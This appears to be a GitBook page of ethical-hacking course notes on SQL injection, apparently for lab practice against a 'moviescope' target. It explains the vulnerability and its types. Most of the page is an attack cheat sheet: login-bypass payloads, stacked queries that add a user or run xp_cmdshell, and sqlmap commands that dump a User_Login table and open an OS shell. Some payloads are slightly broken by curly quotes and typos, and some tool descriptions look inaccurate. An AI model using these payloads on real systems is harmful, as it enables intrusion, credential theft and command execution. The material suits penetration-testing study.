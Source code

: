 # 15 - SQL Injection

## Module 15 - SQL Injection

<details>

<summary>What is SQL Injection?</summary>

**SQL Injection** is a type of security vulnerability that occurs when an attacker is able to manipulate an SQL query in a way that it executes unintended commands on a database. This can lead to unauthorized access, data disclosure, data manipulation, or even database destruction.

Here's a basic textual explanation:

**1. SQL Query:** In web applications, databases are often used to store and retrieve data. The application sends SQL queries to the database to interact with the data.

**2. User Input:** User input is data that a user provides to a web application, like a search query in a text box or a login form.

**3. Vulnerability:** In a vulnerable application, the SQL query is constructed by simply including the user's input without proper validation or sanitization.

**4. Attack:** An attacker can enter malicious input, which may include SQL code, into the user input fields. If the application doesn't properly validate and sanitize this input, the attacker's SQL code becomes part of the query sent to the database.

**5. Exploitation:** The attacker can manipulate the SQL query to perform malicious actions, such as extracting sensitive data, modifying or deleting data, or even taking control of the database.



</details>

<div align="left">

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p><a href="https://spanning.com/blog/sql-injection-attacks-web-based-application-security-part-4/">https://spanning.com/blog/sql-injection-attacks-web-based-application-security-part-4/</a></p></figcaption></figure>

</div>

<details>

<summary>Type of SQL Injection</summary>

### Types of SQL Injection

**Union-based SQL**i: This technique involves using the UNION SQL operator to combine the results of the original query with the results of an attacker-controlled query.

**Error-based SQL**i: This technique involves forcing the database to generate an error, which can reveal information about the database structure.

**Blind SQLi**: In this type of SQLi, the attacker doesn't get the results of the SQL query in the HTTP response. The attacker has to send a payload, and based on the application's response, he can infer if the payload was executed successfully or not.

**Time-based Blind SQLi**: This is a type of blind SQLi where the attacker can infer if the payload was executed successfully or not based on the time the server takes to respond.

**Out-of-Band SQLi**: In this type of SQLi, the attacker doesn't get the results of the SQL query in the HTTP response. Instead, the results are sent to an external server controlled by the attacker.

**Second Order SQLi**: In this type of SQLi, the payload is not directly injected into the SQL query, but it is stored by the application and used in a later SQL query.

**Stored Procedure Attacks**: This involves calling stored procedures from the SQL injection point.

**Function Call Payloads**: This involves calling database functions from the SQL injection point.

**Boolean-based SQLi**: This involves sending a SQL query that will return a different result depending on whether the condition in the query is true or false.

**Content-based SQLi**: This involves sending a SQL query that will return a different result depending on the content of the HTTP response.

</details>

## Manual Injection

* `‘ or 1=1 --`  for login bypass
* admin' --
* admin' #
* admin'/\*
* ' or 1=1--
* ' or 1=1#
* ' or 1=1/\*
* ') or '1'='1--
* ') or ('1'='1—
* `‘insert into login values ('john','apple123'); --` create own user in the database
* `‘create database mydatabase; --`  create database with name of mydatabase
* `‘exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --` execute ping on moviescope

## SQLMap

* Open the vulnerable website
* Copy the cookie from the inspect element
* Open the terminal and run SQLMap

### Basic Commands

* SQLMAP Extract DBS
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --dbs`
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --data="id=1&Submit=Submit"--dbs`
* Extract Tables
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope --tables`
* Extract Columns
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --columns`
* Dump Data
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --dump`
* OS Shell to execute commands
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" --os-shell`
* Login bypass
  * `blah' or 1=1 --`
* Insert data into DB from login
  * `blah';insert into login values ('john','apple123');`
* Create database from login
  * `blah';create database mydatabase;`
* Execute cmd from login
  * `blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --`

### **Perform an SQL Injection Attack Against MSSQL to Extract Databases using SQLMap**

* Login a website
* Inspect element
* Dev tools-\&gt;Console: document.cookie
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" –dbs**
  * **-u: Specify the target URL**
  * **--cookie: Specify the HTTP cookie header value**
  * **--dbs: Enumerate DBMS databases**
* Get a list of databases
* Select a database to extract its tables
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –tables**
  * **-D: Specify the DBMS database to enumerate**
  * **--tables: Enumerate DBMS database tables**
* Get a list of tables
* Select a column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –T User\_Login --dump**
* Get table data of this column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" --os-shell**
* Get the OS Shell
* TASKLIST

Then, if we've SQL username and psw, we can use them to login and query db.

```bash
mysql -U qdpmadmin -h 192.168.1.8 -P passwod
show databases;
use qdpm;
show tables' select * from users;
show dtabases;
use staff;
show tables;
select * from login;
select * from user;
```

## Other Tools

* **Havij**: Havij is an automated SQL Injection tool that helps penetration testers to find and exploit SQL Injection vulnerabilities.
* **jSQL Injection**: jSQL Injection is a lightweight application used to find database information from a distant server.
* **BBQSQL**: BBQSQL is a blind SQL injection framework written in Python.
* **NoSQLMap**: NoSQLMap is an open-source Python tool designed to audit for as well as automate injection attacks and exploit default configuration weaknesses in NoSQL databases.
* **SQLNinja**: SQLNinja is a tool to exploit SQL Injection vulnerabilities on a web application that uses Microsoft SQL Server as its back-end.
* **SQLiX**: SQLiX is a SQL Injection scanner written in Perl.
* **SQLSentinel**: SQLSentinel is an application-level firewall for MySQL that prevents SQL Injection attacks.
* **MyBatis**: MyBatis is a Java persistence framework that includes a built-in SQL Injection scanner.
* **Blisqy**: Blisqy is a tool to aid Web Security researchers to find Time-based Blind SQL injection on HTTP Headers and also exploitation of the same vulnerability.

## Additional Resources

{% embed url="https://hackertarget.com/sqlmap-tutorial/" %}

{% embed url="https://www.binarytides.com/sqlmap-hacking-tutorial/" %}

{% embed url="https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/" %}

{% embed url="https://medium.com/@rafaelrenovaci/dvwa-solution-sql-injection-blind-sqlmap-cd1461ad336e" %}

{% embed url="https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7" %}

{% embed url="https://gracefulsecurity.com/sql-injection-filter-evasion-with-sqlmap/" %}

{% embed url="https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3" %}

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF" %}

{% embed url="https://www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/" %}

[https://www.youtube.com/watch?v=IR1JsaSQLMc](https://www.youtube.com/watch?v=IR1JsaSQLMc)
